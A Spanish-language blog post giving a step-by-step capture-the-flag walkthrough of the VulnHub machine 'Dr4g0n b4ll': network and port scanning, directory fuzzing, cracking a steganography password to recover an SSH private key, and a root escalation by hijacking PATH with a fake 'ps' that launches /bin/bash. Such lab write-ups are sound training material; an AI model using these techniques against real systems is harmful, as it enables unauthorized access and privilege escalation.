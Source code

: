 ```yaml
---
layout: post
title: "Dr4g0n b4ll"
date: 2024-05-22 13:25:23
category: sample
vm: vulnhub
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Dr4g0n b4ll </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/host.png){:.margin}

**1\.** Pillamos la ip objetivo.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/arp.png){:.margin}

**2\.** Escaneo puertos y tambien servicios.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/nmap.png){:.margin}

**3\.** Hecho un ojo a la pagina apache.

`http://192.168.1.8:80`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos en la web.

`gobuster dir -u http://192.168.1.8/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,txt`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/gobuster.png){:.margin}

**5\.** Este archivo me da un texto.

`http://192.168.1.8/robots.txt`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/robots.png){:.margin}

**6\.** Lo pego en [Cyberchef](https://gchq.github.io/CyberChef/)  para decodificar.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/cybercheffind.png){:.margin}

**7\.** Vuelvo a la pagina principal y analizo el codigo fuente.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/ctrlu.png){:.margin}

**8\.** Por muy debajo encuentro una linea comentada, lo llevo a Cyberchef.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/cyberchefdir.png){:.margin}

**9\.** Me dirigo a esa ruta en la web.

`http://192.168.1.8/DRAGON BALL/`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/dbindex.png){:.margin}

**10\.** En el archivo al parecer tenemos rutas.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/secret.png){:.margin}

**11\.** Ya dentro de la carpeta vulnhub, tenemos dos archivos.

_\- En el login pillamos un potencial usuario_

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/login.png){:.margin}

**12\.** Ahora analizando la imagen.

_12.1- Descago la imagen_

`wget http://192.168.1.8/DRAGON%20BALL/Vulnhub/aj.jpg`

_12.2- Con steghide extraigo archivos ocultos, pero me pide una clave_

`steghide --extract -sf aj.jpg`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/steghidefail.png){:.margin}

_12.3- Crackeo la contraseña, si es exitoso lo extrae automaticamente_

`stegcracker aj.jpg -q`

`ls`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/stegcracker.png){:.margin}

_12.4- Tenemos un clave privada, lo renombro y le doy permisos_

`file aj.jpg.out`

`mv aj.jpg.out id_rsa`

`chmod 600 id_rsa`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/idrsa.png){:.margin}

**13\.** Accedo por ssh como usuario xmen.

`ssh -i id_rsa xmen@192.168.1.8`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/ssh.png){:.margin}

**14\.** En el archivo esta nuestra flag de usuario.

_\- Dentro de la carpeta tenemos dos archivos_

`cd script`

`ls`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/scriptfiles.png){:.margin}

**15\.** Analizando los archivos.

_15.1- En el contenido de demo.c veo que ejecuta el comando ps_

`cat demo.c`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/demo.png){:.margin}

_15.2- Al ejecutar shell me resulta una copia de la salida del comando ps_

`./shell`

`ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/shell.png){:.margin}

_\- Entre las cadenas del binario shell hallo demo.c, supongo que al ejecutar shell tambien ejecuta las instrucciones de demo.c, por eso en la salida de shell tambien se ve que se ejecuto ps_

`strings shell | grep demo`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/strings.png){:.margin}

**16\.** En demo.c veo que ps no es llamado con su ruta absoluta, supongo que busca en el path.

_16.1- En principio veo la ruta relativa de ps_

`which ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/which.png){:.margin}

_16.2- Creo mi propio 'binario' ps y lo agrego al path_

`cd /tmp`

`echo "/bin/bash" > ps`

`chmod +x ps`

`export PATH=/tmp:$PATH`

`echo $PATH`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/newps.png){:.margin}

_16.3- Compruebo la nueva ruta de ps_

`which ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/whichnew.png){:.margin}

**17\.** Por ultimo escalo privilegios.

`cd /home/xmen/script`

`./shell`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>
